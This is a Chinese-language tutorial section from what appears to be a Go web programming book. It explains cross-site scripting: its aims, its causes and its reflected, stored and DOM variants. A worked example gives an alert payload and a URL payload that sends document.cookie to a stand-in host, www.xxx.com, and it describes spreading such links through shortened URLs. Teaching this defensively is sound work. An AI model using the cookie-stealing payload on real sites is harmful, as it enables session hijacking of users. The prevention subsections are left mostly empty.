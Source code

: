 ##9.3 避免XSS攻击 
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取客户端的cookie或者其他网站用于识别客户端身份的敏感信息。获取到合法用户的信息后，攻击者甚至可以假冒最终用户与网站进行交互。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

##XSS的原理
XSS漏洞产生的原因是由于Web应用对用户提交请求的数据未做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，然后未加编码地输出到第三方用户的浏览器，这些攻击者恶意提交代码会被受害用户的浏览器解释执行。

许多流行的留言本和论坛程序允许用户发表包含HTML和javascript的帖子。假设用户甲发表了一篇包含恶意脚本的帖子，那么用户乙在浏览这篇帖子时，恶意脚本就会执行，盗取用户乙的cookie信息。有关攻击方法的详细情况请看如下例子：

我们现在有一个网站，根据参数输出用户的名称，例如访问url："http://127.0.0.1/?name=astaxie"，就会在浏览器输出如下信息：

	hello astaxie

那么如果我们传递这样的url："http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>",这个时候你就会发现你的浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞，那么用户如何来获取Cookie呢？也是类似上面的代码，输入如下的url："http://127.0.0.1/?name=<script>document.location='http://www.xxx.com/cookie?'%20+document.cookie</script>"，这样就可以把当前的cookie发送到指定www.xxx.com站点。这样攻击者就可以把类似这样的url进行短域名服务缩短url，然后把这些url通过途径传播开来，被攻击用户一旦点击了这样的url，相应数据就会被发送到收集cookie的脚本中。这样就获得了cookie信息，然后利用Websleuth之类的工具来检查是否能盗取那个账户。

上面的这种漏洞叫做反射式漏洞，其实XSS漏洞还有另外两种：本地利用漏洞和存储式漏洞

- 本地利用漏洞，这种漏洞存在于页面中客户端脚本自身。
- 存储式漏洞，这是目前应用最为广泛而且有可能影响到Web服务器自身安全的漏洞。

##如何预防XSS
其实这个问题很简单，坚决不要相信任何用户输入并过滤所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符
	
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

- 使用HTTP头指定类型

##总结

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)

## LastModified 
   * $Id$
